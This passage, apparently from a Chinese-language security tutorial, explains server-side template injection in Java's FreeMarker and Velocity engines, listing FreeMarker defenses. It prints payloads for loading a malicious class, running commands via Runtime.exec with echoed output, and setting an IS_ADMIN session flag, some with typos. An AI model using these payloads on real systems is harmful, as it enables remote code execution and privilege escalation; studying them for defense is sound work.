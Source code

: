 

**3.api函数的利用**

api函数可以用来访问java api，使用方法为：`value?api.someJavaMethod()`,相当于`value.someJavaMethod()`。因此可以利用api函数通过getClassLoader来获取一个类加载器，进而加载恶意类。也可以通过getResource来读取服务器上的资源文件

```java
<#assign classLoader=object?api.class.getClassLoader()>
    $(classLoader.loadClass("Evil.class"))
    
```





**防御：**

- 从2.3.22版本开始，api_builtin_enabled的默认值为false，这意味着api内家函数从此之后不能随意使用；
- 官方还提供了3个预定义的解析器来限制new函数对类的访问：
- USRESTRICTED_RESOLVER
- SAFER_RESOLVER
- ALLOW_NOTHING_RESOLVER







### Java的Velovity模板引擎

在Java中，Velovity使用的较多，简单介绍一下Velovity的基本语法和RCE方法。

在Velovity中，用`#`来表示Velovity的脚步语句，比如`#set`,`#if`,`#foreach`等

```jsp
#if($msg.img)
<img src=$msg.imgs border=0>
#else
<img src="a.jpg">
#end
```

`$`在Velovity中标识一个对象。根据SpEL表达式注入的知识，我们知道一旦可以调用对象，便有办法来构造命令执行语句：

```java
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime", null).invoke(null, null).exec()
```

在使用Velovity模板注入中，如果无法进行名住，我们可以修改Cookie来进行权限升级：

```java
$session.setAttribute("IS_ADMIN", "1")
```



在漏洞不存在回显的时候，并且容器为Tomcat7的时候，可以通过如下方法来构造一个有回显的命令执行：

```java
#set($str=$class.inspect("java.lang.String").type
#set($cstr=$class.inspect("java.lang.Character").type

#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami")
$ex.waitFor()     
#set($out=$ex.getInputStream())

#foreach(Si in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end     
```
